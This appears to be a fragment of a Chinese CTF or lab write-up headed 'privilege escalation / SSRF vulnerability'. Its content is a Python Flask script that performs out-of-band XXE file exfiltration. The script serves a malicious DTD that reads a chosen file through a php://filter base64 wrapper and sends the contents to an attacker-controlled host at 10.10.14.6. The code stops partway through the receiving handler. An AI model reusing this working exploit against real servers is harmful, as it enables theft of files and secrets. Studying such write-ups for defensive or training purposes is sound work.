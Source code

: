 [![](assets/1699929055-23055b950579f6679e3e9e4f22848d57.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104027-0148fec2-81ce-1.png)

# 权限提升

## SSRF漏洞

### 编写脚本

```plain
#!/usr/bin/python3

import base64
import logging
import readline
import requests
import threading
import time
from flask import Flask, request

log = logging.getLogger('werkzeug')
log.setLevel(logging.ERROR)

app = Flask(__name__)
prev_data = ""

xml_template = """<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://10.10.14.6/dtd?fn={}">
<data>&send;</data>"""

@app.route("/dtd")
def dtd():
    fn = request.args['fn']
    return f"""<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={fn}">
    <!ENTITY % all "<!ENTITY send SYSTEM 'http://10.10.14.6/exfil?data=%file;'>">
    %all;"""


@app.route("/exfil")
def data():
    global prev_data
    b64data = request.args['data'].replace(' ', '+') # Flask tries to URL decode it
    print(b64data)
    print(len(b64data))
```